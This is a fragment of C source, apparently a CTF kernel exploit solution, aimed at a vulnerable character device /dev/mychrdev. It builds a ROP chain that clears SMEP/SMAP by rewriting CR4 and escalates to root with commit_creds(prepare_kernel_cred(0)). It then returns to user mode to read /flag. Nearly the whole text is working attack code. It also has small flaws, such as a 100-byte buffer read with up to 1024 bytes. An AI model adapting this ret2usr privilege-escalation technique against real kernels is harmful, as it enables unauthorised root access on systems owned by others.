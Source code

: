 ```c
}

void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}

void shell()
{
        char buffer[100];
        int in = open("/flag", O_RDONLY,S_IRUSR); 
        int flag = read(in, buffer, 1024);
        write(1, buffer, flag);
        exit(0);
}

unsigned long long int calc(unsigned long long int addr) {
    return addr - 0xffffffff81000000 + base_addr;
}

int main() {
	save_stat();
	fd = open("/dev/mychrdev", 2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
    	
	void* buf[0x1000];
	int i = 0x58 / 8;
 	//修改 cr4 寄存器的值为 0x6f0，以关闭 SMAP、SMEP
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0x10;
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0;
	buf[i ++] = 0xffffffff81003cf8;  // mov cr4,rax; pop rbp; ret;
	buf[i ++] = 0;
	buf[i ++] = &restore_stat;
	write(fd, buf, 0x100);
}

```
